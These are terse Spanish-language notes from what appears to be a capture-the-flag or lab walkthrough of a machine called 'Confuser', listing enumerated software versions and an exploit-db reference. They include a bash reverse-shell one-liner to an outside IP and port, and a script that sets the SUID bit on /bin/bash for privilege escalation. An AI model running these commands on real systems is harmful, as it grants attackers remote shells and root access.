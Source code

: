 # Confuser 

## Enumeración

### Dirsearch

- plugins

- RESPONSIVE filemanager v.9.9.5
- Apache/2.4.61
- CVE-46604: https://www.exploit-db.com/exploits/51251

---
- RevShell Penelope

`bash -c 'exec bash >& /dev/tcp/10.10.12.178/4444 0>&1 &'`


1.
2.
3.
4.
5. Run Confuser

6. 
```bash
#!/bin/bash
chmod u+s /bin/bash
```

7. getpcaps